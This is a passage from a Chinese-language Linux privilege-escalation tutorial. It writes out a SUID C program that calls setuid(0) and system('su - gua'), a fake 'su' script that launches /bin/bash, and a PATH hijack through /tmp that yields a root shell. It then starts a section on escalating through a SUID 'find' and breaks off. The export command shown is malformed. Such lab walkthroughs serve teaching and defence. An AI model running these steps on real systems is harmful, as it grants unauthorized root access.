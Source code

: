 > 如果属主为没有x权限，会显示为大写S，表示权限无效

‍

##### 自定义文件进行提权

1.编写.c文件，内容为root权限，在/tmp路径下，切换到普通用户，实现第三方免密用指定账号登录

demo.c

```bash
vi demo.c
#include<unistd.h>
void main(){
setuid(0);
setgid(0);
system("su - gua");
}
```

2.编译文件，得到二进制文件demo

```bash
gcc demo.c -o demo
```

3.给demo文件添加s权限

```bash
chmod u+s demo
```

4.伪装su文件。因为demo.c中有“su-gua”这个系统命令，要让这个su命令执行的不是系统自带的su脚本

```bash
echo "/bin/bash" >su
cat su
chmod 777 su
```

5.添加环境变量，让系统执行/tmp下的su文件：

```bash
export $PATH=/tmp:$﻿PATH
echo $PATH                //验证环境路径
```

测试，在普通用户下运行demo程序，成功切换到root用户，提权成功

```bash
cd /tmp
./demo
id
```

##### find_Suid提权

###### 部署环境

1.找到find的脚本路径位置，并对其添加s权限
